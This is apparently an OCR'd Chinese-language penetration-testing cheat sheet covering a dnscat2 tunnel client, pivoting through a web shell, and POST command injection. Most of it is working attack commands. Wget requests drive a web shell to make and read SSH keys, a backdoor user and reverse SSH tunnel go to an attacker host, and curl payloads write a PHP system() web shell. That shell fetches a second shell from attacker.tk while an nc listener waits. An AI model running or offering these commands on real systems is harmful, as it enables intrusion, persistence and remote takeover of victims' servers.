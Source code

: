 # 客户机 (目标)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host <dnscat server_ip>
编译 Assemble 代码

$ nasm -f elf32 simple32.asm -o simple32.o
$ ld -m elf_i386 simple32.o simple32

$ nasm -f elf64 simple.asm -o simple.o
$ ld simple.o -o simple
使用非交互 Shell 打入内网

# 生成 shell 使用的 ssh 密钥
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"

# 增加用户 tempuser 
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh

# 反弹 ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
利用 POST 远程命令执行获取 Shell

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&submit=submit' 'http://victum.tk/command.php'

attacker:~$ curl http://victum.tk/shell.php?cmd=id

# 在服务器上下载 shell (phpshell.php)

http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27

# 运行 nc 并执行 phpshell.php
attacker:~$ nc -nvlp 1337
以管理员身份在 Win7 上反弹具有系统权限的 Shell
